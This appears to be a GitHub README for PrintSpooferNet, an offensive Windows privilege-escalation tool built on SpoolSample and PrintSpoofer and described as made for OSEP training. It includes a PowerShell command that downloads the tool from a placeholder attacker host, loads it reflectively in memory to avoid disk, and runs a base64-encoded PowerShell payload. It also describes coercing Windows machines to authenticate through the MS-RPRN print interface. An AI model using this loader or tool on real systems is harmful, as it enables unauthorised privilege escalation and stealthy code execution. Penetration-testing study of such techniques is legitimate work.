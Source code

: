 # PrintSpooferNet
Modified version of SpoolSample + PrintSpoofer. Made for OSEP. Able to run in memory directly

e.g. in memory:
```powershell
[System.Reflection.Assembly]::Load((New-Object Net.WebClient).DownloadData('http://ip/PrintSpooferNet.exe'))
[PrintSpooferNet.Program]::Main(@("any_pipe_name", "powershell -enc <base64>"))
```

# SpoolSample
PoC tool to coerce Windows hosts authenticate to other machines via the MS-RPRN RPC interface.  This is possible via other protocols as well.

This tool is released as is.  Don't expect any support or extensions to it.

Presentation: The Unintended Risks of Trusting Active Directory @ DerbyCon 2018
- https://www.slideshare.net/harmj0y/derbycon-the-unintended-risks-of-trusting-active-directory
- @tifkin_ (Lee Christensen), @harmj0y(Will Schroeder), @enigma0x3(Matt Nelson)

MS-RPRN - Print System Remote Protocol
 - https://msdn.microsoft.com/en-us/library/cc244528.aspx

